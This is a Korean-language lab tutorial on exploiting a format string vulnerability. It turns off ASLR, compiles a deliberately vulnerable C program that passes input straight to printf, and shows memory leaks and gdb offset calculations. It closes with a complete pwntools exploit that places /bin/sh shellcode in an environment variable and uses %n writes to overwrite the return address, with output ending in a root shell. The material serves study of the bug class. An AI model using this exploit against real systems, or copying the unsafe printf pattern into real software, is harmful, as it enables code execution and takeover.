 ## **Concept**

Format String은 형태를 지정해주는 문자열을 의미한다.  
형식지정자를 사용하지 않고 바로 printf() 함수에 인자를 입력받을 경우 발생하는 취약점이다.

## **Proof of Concept**

고정된 Stack 영역을 사용하기 위해 randomize_va_space의 값을 0으로 변경한다.

```
echo 0 > /proc/sys/kernel/randomize_va_space
```

```c
// Vuln Code
// gcc fmt.c -m32 -fno-stack-protector -z execstack -no-pie -o fmt
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc,char* argv[]){
    char buf[1024];
    printf("&buf: %p\n",&buf);
    gets(buf);
    printf(buf);
    printf("n");
    return 0;
}
```

형식지정자 입력 시 &buf부터 차례로 Memory Leak이 발생한다.

```
root@bs-virtual-machine:~/pwnable/fmt# ./fmt
&buf: 0xffffd150
%08x.%08x.%08x.
ffffd150.001ad23c.001ae23c.
```

Memory Leak을 하다보면 buf의 값을 확인할 수 있다.

```
root@bs-virtual-machine:~/pwnable/fmt# ./fmt
&buf: 0xffffd150
AAAA.0x%08x.0x%08x.0x%08x.0x%08x
AAAA.0xffffd150.0x001ad23c.0x001ae23c.0x41414141
```

처음에 넣은 AAAA(4Byte)가 4번째에에 출력되고 있다. 즉 네번째에 들어가는 포맷스트링은 처음 입력한 AAAA(4Byte)를 가리키는 것을 알 수 있다.  

따라서 "Ret Addr" + "%x%x%x" + "%n" Payload를 통해 원하는 메모리 주소에 원하는 값으로 변조할 수 있다.  

먼저 환경변수에 x86 EggShell을 삽입 후 출력되는 Stack Address를 통해 Return Address와 EggShell Address를 계산한다.

```
gdb-peda$ p 0xffffd4ac-0xffffd090 (Return Address - Stack)
$1 = 0x41c
gdb-peda$ p 0xffffd6fc-0xffffd090 (EggShell Address - Stack)
$3 = 0x66c
```

## **Exploit Code**

```python
# Exploit Code
from pwn import *
import os

# set eggshell
os.environ['eggshell'] = "x90"*100+"\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"

binary = ELF('./fmt')
p = process(binary.path)
stack_addr = int(p.recvline().split(' ')[1],16)
log.info('stack addr: '+hex(stack_addr))

ret_addr = stack_addr + 0x41c
eggshell_addr = stack_addr + 0x66c

log.info('ret addr: '+str(hex(ret_addr)))
log.info('eggshell addr: '+str(hex(eggshell_addr)))

eggshell_high = int("0x"+ str(hex(eggshell_addr))[2:6],16)
eggshell_low = int("0x"+str(hex(eggshell_addr))[6:10],16)

log.info("eggshell high: "+str(hex(eggshell_high)))
log.info("eggshell low: "+str(hex(eggshell_low)))

first_n = eggshell_low -16 -12
second_n = eggshell_high - 16 - 12 - first_n

payload = ""
payload += p32(ret_addr)
payload += "AAAA"
payload += p32(ret_addr+2)
payload += "%8x"*2
payload += "%"+str(first_n)+"c"+"%n"
payload += "%"+str(second_n)+"c"+"%n"

p.send(payload)
p.interactive()
```

## **Exploit**

```
root@bs-virtual-machine:~/pwnable/fmt# python exploit.py 
[*] '/root/pwnable/fmt/fmt'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[+] Starting local process '/root/pwnable/fmt/fmt': pid 5036
[*] stack addr: 0xffffd0a0
[*] ret addr: 0xffffd4bc
[*] eggshell addr: 0xffffd70c
[*] eggshell high: 0xffff
[*] eggshell low: 0xd70c
[*] Switching to interactive mode
$ 
xbcտxffAAAAxbeտxffffffd0a0  1ad23c 
...
$ id
uid=0(root) gid=0(root) groups=0(root)
$ pwd
/root/pwnable/fmt
```